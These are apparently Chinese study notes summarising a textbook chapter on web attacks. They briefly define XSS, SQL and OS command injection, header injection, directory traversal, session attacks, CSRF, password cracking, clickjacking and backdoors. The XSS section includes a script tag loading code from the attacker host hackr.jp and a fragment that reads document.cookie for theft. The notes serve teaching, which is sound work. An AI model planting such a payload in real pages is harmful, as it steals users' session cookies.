



# 第11章: Web 的攻击技术 #

## 11.1 针对 Web 的攻击技术 ##

应用 HTTP 协议的服务端和客户端, 以及运行在服务器上的 Web 应用等资源是攻击目标.



### 11.1.1 HTTP 不具备必要的安全功能 ###

HTTP 是一个通用的单纯协议机制, 具备较多优势, 但是在安全性方面呈劣势.

### 11.1.2 在客户端即可篡改请求 ###

Web 应用可能接收到与预期数据不相同的内容.

### 11.1.3 针对 Web 应用的攻击模式 ###

#### 以服务器为目标的主动攻击 ####

主动攻击是指攻击者通过直接访问 Web 应用, 把攻击代码传入的攻击模式. 常见的是 SQL 注入攻击和 OS 命令注入攻击.

#### 以服务器为目标的被动攻击 ####

被动攻击是指利用圈套策略执行攻击代码的攻击模式, 攻击者不直接针对目标 Web 应用访问发起攻击. 常见的是跨站脚本攻击和跨站点请求伪造.

## 11.2 因输出值转义不完全引发的安全漏洞 ##

### 11.2.1 跨站脚本攻击 ###

跨站脚本攻击(Cross-Site Scripting, XSS) 是指通过存在安全漏洞的 Web 网站注册用户的浏览器内运行非法的 HTML 标签或 JavaScript 进行的一种攻击.

#### XSS 是攻击者利用预先设置的陷阱触发的被动攻击 ####

例如以下页面, 打开 URI 时自动将查询字段中的 ID 填写到表单中:



攻击者可以构造如下的 URI 并诱使用户点击:



当打开该 URI 后用户在表单内输入的 ID 和密码就会发送到网站 hackr.jp, 导致个人登录信息被窃取.

#### 对用户 Cookie 的窃取攻击 ####

除了在表单中设下圈套之外, 还可以使用以下的恶意脚本窃取用户的 Cookie:

```
<script src=http://hackr.jp/xss.js></script>
```

xss.js 文件的内容如下:

```
var content = escape(document.cookie)
```

### 11.2.2 SQL 注入攻击 ###

#### 会执行非法 SQL 的 SQL 注入攻击 ####

SQL 注入是指针对 Web 应用使用的数据库, 通过运行非法的 SQL 而产生的攻击.

### 11.2.3 OS 命令注入攻击 ###

指通过 Web 引用执行非法的操作系统命令达到攻击目的的攻击. 在能调用 Shell 函数的地方就有存在被攻击的风险.

### 11.2.4 HTTP 首部注入攻击 ###

指攻击者通过在响应首部字段内插入换行, 添加任意响应首部或主体的攻击.

#### HTTP 首部注入攻击 ####

#### HTTP 响应阶段攻击 ####

用于显示伪造的主体而达到攻击的目的.

### 11.2.5 邮件首部注入攻击 ###

指 Web 应用中的邮件发送功能, 攻击者通过向邮件首部 To 或 Subject 内任意添加非法内容发起的攻击.

### 11.2.6 目录遍历攻击 ###

是指对本无意公开的文件目录通过非法截断其目录路径后, 达成访问目的的攻击.

### 11.2.7 远程文件包含漏洞 ###

指当部分脚本内容需要从其他文件读入时, 攻击者利用指定外部服务器的 URL 充当依赖文件, 让脚本读取之后就可运行任意脚本的一种攻击.

## 11.3 因设置或设计上的缺陷引发的安全漏洞 ##

### 11.3.1 强制浏览 ###

指从安置在 Web 服务器的公开目录下的文件中, 浏览那些非自愿公开的文件.

### 11.3.2 不正确的错误消息处理 ###

指 Web 应用的错误消息内包含对攻击者游泳的信息.

### 11.3.3 开放重定向 ###

指对指定的任意 URL 作重定向跳转的功能, 假如指定的重定向 URL 到某个恶意网站, 那么用户就会被诱导至恶意网站.

## 11.4 因会话管理疏忽引发的安全漏洞 ##

### 11.4.1 会话劫持 ###

指攻击者通过某种手段拿到了用户的会话 ID, 并使用该ID伪装成用户而进行的攻击.

### 11.4.2 会话固定攻击 ###

强制用户使用攻击者指定的会话ID.

### 11.4.3 跨站点请求伪造 ###

指攻击者通过设置好的陷阱, 强制对已完成认证的用户进行非预期的个人信息或设定信息等某些状态更新.

## 11.5 其他安全漏洞 ##

### 11.5.1 密码破解 ###

#### 通过网络进行密码试错 ####

- 穷举法
- 字典攻击

#### 对已加密密码的破解 ####

- 通过穷举法/字典攻击进行类推
- 彩虹表
- 拿到密钥
- 加密算法的漏洞

### 11.5.2 点击劫持 ###

利用透明的按钮或连接作为陷阱覆盖在 Web 页面之上, 诱使用户在不知情的情况下点击的攻击手段.

### 11.5.3 DoS攻击 ###

一种让运行中的服务呈停止状态的攻击.

- 利用访问请求造成资源过载
- 通过攻击安全漏洞使服务停止

### 11.5.4 后门程序 ###

指隐藏入口, 可不按正常步骤使用受限功能.
